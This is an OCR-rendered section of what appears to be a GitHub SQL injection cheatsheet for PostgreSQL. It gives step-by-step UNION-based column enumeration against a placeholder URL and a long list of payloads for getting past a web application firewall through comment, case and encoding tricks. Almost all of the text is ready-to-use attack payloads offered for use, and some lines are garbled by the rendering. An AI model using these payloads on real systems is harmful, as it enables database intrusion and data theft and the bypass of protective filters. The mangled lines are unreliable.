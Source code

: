 ### Dump the vulnerable column

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#dump-the-vulnerable-column)

Usually on PostgreSQL, server doesn't accept numbers on the query, so we have to use characters instead.

`http://domain.com/index.php?id=1 union select CHR(49) || CHR(50) || CHR(51) || CHR(52)` if no error, look for what number is shown  
`http://domain.com/index.php?id=1 union select null,null,null,null`  
`http://domain.com/index.php?id=1 union select version(),null,null,null` if no error, then the first column is vulnerable  
`http://domain.com/index.php?id=1 union select null,version(),null,null` if no error, then the second column is vulnerable  
`http://domain.com/index.php?id=1 union select null,null,version(),null` if no error, then the third column is vulnerable  
`http://domain.com/index.php?id=1 union select null,null,null,version()` if no error, then the fourth column is vulnerable

More payloads with UNION based query:

```
http://domain.com/index.php?id=1 Union Select null,null,null,null
http://domain.com/index.php?id=-1 Union Select null,null,null,null
http://domain.com/index.php?id=-1 Union Select null,null,null,null
http://domain.com/index.php?id=1+UNION+ALL+SELECT+null,null,null,null
http://domain.com/index.php?id=1 Union Select null,null,null,null
http://domain.com/index.php?id=.1 Union Select null,null,null,null
http://domain.com/index.php?id=-1 div 0 Union Select null,null,null,null
http://domain.com/index.php?id=1 Union Select null,null,null,null desc
http://domain.com/index.php?id=1 AND 0 Union Select null,null,null,null
```

If the queries are blocked by WAF, try the following payloads:

```
http://domain.com/index.php?id=1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ null,null,null,null  
http://domain.com/index.php?id=1 %55nion(%53elect 1,2,3) null,null,null,null  
http://domain.com/index.php?id=1+union+distinctROW+select+null,null,null,null--+-  
http://domain.com/index.php?id=1+ #?uNiOn + #?sEleCt null,null,null,null  
http://domain.com/index.php?id=1 + #?1q %0AuNiOn all#qa%0A#%0AsEleCt null,null,null,null  
http://domain.com/index.php?id=1 /*!%55NiOn*/ /*!%53eLEct*/ null,null,null,null  
http://domain.com/index.php?id=1 +un/**/ion+se/**/lect null,null,null,null  
http://domain.com/index.php?id=1 +?UnI?On?+'SeL?ECT? null,null,null,null  
http://domain.com/index.php?id=1+(UnIoN)+(SelECT)+null,null,null,null--+-  
http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ null,null,null,null  
http://domain.com/index.php?id=1 %55nion(%53elect null,null,null,null)
http://domain.com/index.php?id=1 /**//*!12345UNION SELECT*//**/ null,null,null,null  
http://domain.com/index.php?id=1 /**//*!50000UNION SELECT*//**/ null,null,null,null  
http://domain.com/index.php?id=1 /**/UNION/**//*!50000SELECT*//**/ null,null,null,null  
http://domain.com/index.php?id=1 /*!50000UniON SeLeCt*/ null,null,null,null  
http://domain.com/index.php?id=1 union /*!50000%53elect*/ null,null,null,null  
http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ null,null,null,null  
http://domain.com/index.php?id=1 /*--*/union/*--*/select/*--*/ null,null,null,null  
http://domain.com/index.php?id=1 union (/*!/**/ SeleCT */ null,null,null,null)
http://domain.com/index.php?id=1 /*!union*/+/*!select*/ null,null,null,null  
http://domain.com/index.php?id=1 /**/uNIon/**/sEleCt/**/ null,null,null,null  
http://domain.com/index.php?id=1 +%2F**/+Union/*!select*/ null,null,null,null  
http://domain.com/index.php?id=1 /**//*!union*//**//*!select*//**/ null,null,null,null  
http://domain.com/index.php?id=1 /*!uNIOn*/ /*!SelECt*/ null,null,null,null  
http://domain.com/index.php?id=1 /**/union/*!50000select*//**/ null,null,null,null  
http://domain.com/index.php?id=1 0%a0union%a0select%09 null,null,null,null  
http://domain.com/index.php?id=1 %0Aunion%0Aselect%0A null,null,null,null  
http://domain.com/index.php?id=1 uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ null,null,null,null  
```